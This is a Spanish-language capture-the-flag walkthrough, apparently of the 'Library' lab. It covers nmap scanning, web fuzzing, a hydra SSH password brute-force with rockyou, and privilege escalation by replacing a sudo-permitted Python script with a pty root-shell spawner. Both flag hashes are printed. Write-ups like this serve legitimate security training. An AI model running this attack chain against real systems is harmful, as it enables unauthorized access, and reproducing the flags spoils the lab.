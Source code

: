 # Library

## Escaneo de puertos

Ejecutamos el siguiente comando de`nmap`para comprobar los puertos abiertos que hay en la máquina.

```
nmap -sV -vv 10.10.31.106
```

Hay 2 puertos abiertos: el 22 de ssh y el 80 de una aplicación web.

![Escaneo de puertos](images/Pasted%20image%20250221170416.png)

## Fuzzing web

Accedemos al sitio web. 

![[Pasted image 20250221170416.png]]

Le hacemos fuzzing con `dirbuster` para obtener los directorios que tenga.

![[Pasted image 20250221170508.png]]

El único interesante puede ser el directorio de  `/images/`

![[Pasted image 20250221171240.png]]

También comprobamos si hay algo en el archivo `robots.txt`. Esto puede ser una pista de que uno de los usuarios tiene su contraseña en el diccionario `rockyou`.

![[Pasted image 20250221171339.png]]

Que puede ser `meliodas`por como vemos en la página anterior.

![[Pasted image 20250221171459.png]]

Hacemos un ataque de fuerza bruta con `hydra` por el puerto 22 para obtener la contraseña de `meliodas` y acceder al sistema.

```
hydra -l meliodas -P /usr/share/wordlists/rockyou.txt ssh://10.10.31.106
```

Después de unos minutos, obtenemos la contraseña del usuario y accedemos por ssh con sus credenciales.

![[Pasted image 20250221171938.png]]

```
ssh meliodas@10.10.31.106
```

![[Pasted image 20250221172044.png]]

Obtenemos la flag de`user.txt`.

![[Pasted image 20250221172143.png]]

```
6d488cbb3f111d135722c33cb635f4ec
```

## Escalada de privilegios

Ejecutamos el siguiente comando para ver los permisos que tiene el usuario:

```
sudo -l
```

![[Pasted image 20250221172307.png]]

Vemos que se le tiene permitido usar python para ejecutar un script llamado `bak.py`. Python puede ayudarnos a generar  una root shell.

![[Pasted image 20250221172514.png]]

Borramos el script ya que no nos permite nada más y vamos a crear nosotros el nuestro.

```
rm -f bak.py
```

Creamos un nuevo`bak.py`con el siguiente contenido:

```
#!/usr/bin/env python
import pty; pty.spawn("/bin/bash")
```

![[Pasted image 20250221172815.png]]

Ejecutamos el siguiente comando para iniciar el script y obtener el root.

```
sudo /usr/bin/python3 /home/meliodas/bak.py
```
![[Pasted image 20250221172922.png]]

Nos ubicamos en la carpeta`/root/` y obtenemos la última flag.

![[Pasted image 20250221173014.png]]

```
e8c8c6c256c35515d1d344ee0488c617
```












